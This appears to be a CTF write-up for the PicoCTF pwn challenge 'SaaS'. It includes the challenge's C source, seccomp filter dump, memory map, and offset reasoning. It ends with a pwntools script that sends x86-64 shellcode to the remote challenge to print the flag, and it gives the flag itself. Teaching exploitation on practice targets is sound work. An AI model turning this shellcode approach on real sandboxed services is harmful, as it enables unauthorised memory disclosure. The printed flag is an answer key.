 ```yaml
---
title: PicoCTF - SaaS
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - SaaS
## Background
seccomp-tool
## Source code
:::spoiler Source Code
```cpp=
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>

#define SIZE 0x100

// http://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=xor+rax%2C+rax%0D%0Amov+rdi%2C+rsp%0D%0Aand+rdi%2C+0xfffffffffffff000%0D%0Asub+rdi%2C+0x2000%0D%0Amov+rcx%2C+0x600%0D%0Arep+stosq%0D%0Axor+rbx%2C+rbx%0D%0Axor+rcx%2C+rcx%0D%0Axor+rdx%2C+rdx%0D%0Axor+rsp%2C+rsp%0D%0Axor+rbp%2C+rbp%0D%0Axor+rsi%2C+rsi%0D%0Axor+rdi%2C+rdi%0D%0Axor+r8%2C+r8%0D%0Axor+r9%2C+r9%0D%0Axor+r10%2C+r10%0D%0Axor+r11%2C+r11%0D%0Axor+r12%2C+r12%0D%0Axor+r13%2C+r13%0D%0Axor+r14%2C+r14%0D%0Axor+r15%2C+r15%0D%0A&arch=x86-64&as_format=inline#assembly
#define HEADER "\x48\x31\xc0\x48\x89\xe7\x48\x81\xe7\x00\xf0\xff\xff\x48\x81\xef\x00\x20\x00\x00\x48\xc7\xc1\x00\x06\x00\x00\xf3\x48\xab\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xe4\x48\x31\xed\x48\x31\xf6\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"

#define FLAG_SIZE 64

char flag[FLAG_SIZE];

void load_flag() {
  int fd;
  if ((fd = open("flag.txt", O_RDONLY)) == -1)
    error(EXIT_FAILURE, errno, "open flag");
  if (read(fd, flag, FLAG_SIZE) == -1)
    error(EXIT_FAILURE, errno, "read flag");
  if (close(fd) == -1)
    error(EXIT_FAILURE, errno, "close flag");
}

void setup() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  if (ctx != NULL) {
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
      SCMP_A0(SCMP_CMP_EQ, STDOUT_FILENO));
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    ret |= seccomp_load(ctx);
  }
  seccomp_release(ctx);
  if (ctx == NULL || ret)
    error(EXIT_FAILURE, 0, "seccomp");
}

int main()
{
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  load_flag();
  puts("Welcome to Shellcode as a Service!");

  void* addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0);
  memcpy(addr, HEADER, sizeof(HEADER));
  read(0, addr + sizeof(HEADER) - 1, SIZE);

  setup();
  goto *addr;
}

```
:::
## Recon
這題算簡單，很適合新手打shell code，但不知道為啥很少人解，和之前計安的某一題很像但忘記在哪邊了，也有可能是在EOF的時候打的，關於seccomp可以看這篇[^seccomp-tools-note]
```bash
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0c0d78f23470e4613121a0d3bdc1cd5e43e49b32, not stripped
$ checksec chall
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/SaaS/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$ seccomp-tools dump ./chall
Welcome to Shellcode as a Service!
123
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x0000003c  if (A == exit) goto 0012
 0006: 0x15 0x05 0x00 0x000000e7  if (A == exit_group) goto 0012
 0007: 0x15 0x00 0x05 0x00000001  if (A != write) goto 0013
 0008: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # write(fd, buf, count)
 0009: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0013
 0010: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0011: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```
1. 觀察source code發現有設定seccomp的保護，只開放write和exit，但在輸入之前已經先讀了flag，此時就可以直接想辦法call syswrite把東西印出來就完事了
2. 要注意libc的版本，我的local端原本是2.31但不知道為啥變成2.35，所以又花了一點時間用VM才解出來
3. 這一題難的地方在於一開始有一串shell code(HEADER)，經過online tool[^online-tool-assemble]可以知道它就是把stack上和register的東西全部清空，所以如果要找到flag所在的位址就需要撈一下memory，我的做法是直接把memory dump下來，然後string search(記得是little endian)，然後用offset算他和rip之間的相對位置
## Exploit - seccomp-tools / syswrite
算offset是這一題最煩的地方，以我的例子來說(記憶體區段如下)，flag是放在==0x000055e109602060==的地方，我執行shell code的地方是在==0x7fbb78c21000==，所以我先把0x00007f1d391e5000~0x00007f1d39215000的東西dump下來，發現在0x2e590的地方存的是==0x55e109400448==，和原本的0x000055e109602060差了一點，所以我先把後1.5bytes變成0(and operator)，然後加上offset(0x202060)，在依序把其他必要的register擺好就可以call function了
![](https://hackmd.io/_uploads/r1FxFRy23.png)


:::spoiler
```
0x000055e109400000 0x000055e109402000 0x0000000000000000 r-x /home/sbk/Downloads/SaaS/chall
0x000055e109601000 0x000055e109602000 0x0000000000001000 r-- /home/sbk/Downloads/SaaS/chall
0x000055e109602000 0x000055e109603000 0x0000000000002000 rw- /home/sbk/Downloads/SaaS/chall
0x00007fbb789cb000 0x00007fbb789ce000 0x0000000000000000 rw- 
0x00007fbb789ce000 0x00007fbb789f0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb789f0000 0x00007fbb78b68000 0x0000000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78b68000 0x00007fbb78bb6000 0x000000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bb6000 0x00007fbb78bba000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bba000 0x00007fbb78bbc000 0x00000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bbc000 0x00007fbb78bc0000 0x0000000000000000 rw- 
0x00007fbb78bc0000 0x00007fbb78bc2000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bc2000 0x00007fbb78bd1000 0x0000000000002000 r-x /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bd1000 0x00007fbb78bdf000 0x0000000000011000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bdf000 0x00007fbb78be0000 0x000000000001f000 --- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be0000 0x00007fbb78be1000 0x000000000001f000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be1000 0x00007fbb78be2000 0x0000000000020000 rw- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be2000 0x00007fbb78be4000 0x0000000000000000 rw- 
0x00007fbb78bf5000 0x00007fbb78bf6000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78bf6000 0x00007fbb78c19000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c19000 0x00007fbb78c21000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c21000 0x00007fbb78c22000 0x0000000000000000 rwx 
0x00007fbb78c22000 0x00007fbb78c23000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c23000 0x00007fbb78c24000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c24000 0x00007fbb78c25000 0x0000000000000000 rw- 
0x00007ffe014db000 0x00007ffe014fd000 0x0000000000000000 rw- [stack]
0x00007ffe0150d000 0x00007ffe01511000 0x0000000000000000 r-- [vvar]
0x00007ffe01511000 0x00007ffe01513000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```
:::
```python!
from pwn import *

# r = process('./chall')
r = remote('mars.picoctf.net', 31021)
context.arch = 'amd64'
r.recvline()

# exe = ELF('./chall')

payload = asm('''
    lea rax, [rip-0x52-0x2c000+0x2e9f0]
    mov rsi, QWORD PTR [rax]
    and rsi, 0xfffffffffffff000
    add rsi, 0x202060
    mov rdi, 1
    mov rdx, 0x40
    mov rax, 1
    syscall
''')
# raw_input()
r.sendline(payload)


r.interactive()
```

```bash!
$ python exp.py
[+] Opening connection to mars.picoctf.net on port 31021: Done
[*] Switching to interactive mode
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Flag: `picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}`
## Reference
[^seccomp-tools-note]:[Simple PWN - 0x010(seccomp/Lab - rop2win)](https://hackmd.io/@SBK6401/H1NX6Bloj)
[^online-tool-assemble]:[Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm)